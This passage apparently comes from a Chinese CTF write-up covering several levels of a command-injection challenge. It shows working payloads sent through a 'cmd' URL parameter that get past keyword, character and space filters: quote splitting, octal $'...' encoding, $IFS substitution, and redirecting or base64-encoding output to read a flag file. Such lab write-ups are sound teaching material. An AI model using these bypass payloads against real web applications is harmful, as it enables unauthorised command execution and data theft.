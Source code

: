 看源码，过滤了flag，老样子直接‘’bypass。  
    
![day1b9.png](https://s2.loli.net/2025/01/17/SJbvUpILFEz59WG.png)  
  
    
>/?cmd= cat /fl''ag;
    

拿到flag。  
  
  
  
### LEVEL 6  
  
    
一看几乎全ban，不给留活路啊😅  
  
    
**知识点：linux中使用\$'xxx'（xxx为字符的八进制）的形式可以执行任意代码**  

遂寻找网站将字符串改写为8进制。

>/?cmd=\$'\154\163' $'\57'  //执行ls /命令。  
  
![day1b10.png](https://s2.loli.net/2025/01/17/Y9Ij2rBtTHFOQeh.png)  
看到flag了。
>/?cmd=\$'\143\141\164' $'\57\146\154\141\147'  //执行cat /flag命令。  
  
拿到flag。
  
  ### LEVEL 7    
    
典中典之空格过滤，直接\$IFS$bypass。  
  
    
>http://node6.anna.nssctf.cn:28003/?cmd=ls$IFS$1/  
>http://node6.anna.nssctf.cn:28003/?cmd=cat$IFS$1/fl''ag  
  
    
        
### LEVEL 8    
  
看看源码
![day1b11.png](https://s2.loli.net/2025/01/17/js13Cb6goUSDNtq.png)  
  
    
      
这种时候有两种办法：  
  
  
* 建立临时目录，然后储存输出flag  
  
>/?cmd=cat /flag > /tmp/the_flag;cat /tmp/the_flag;  
  
    
通过临时路径输出得到flag。  
  
    
* 用base64编码和管道符输出flag  
  
>/?cmd=cat /flag | base64;  
  
    
拿到flag的base64编码，到网上随便找一个解码器，解出flag。  
  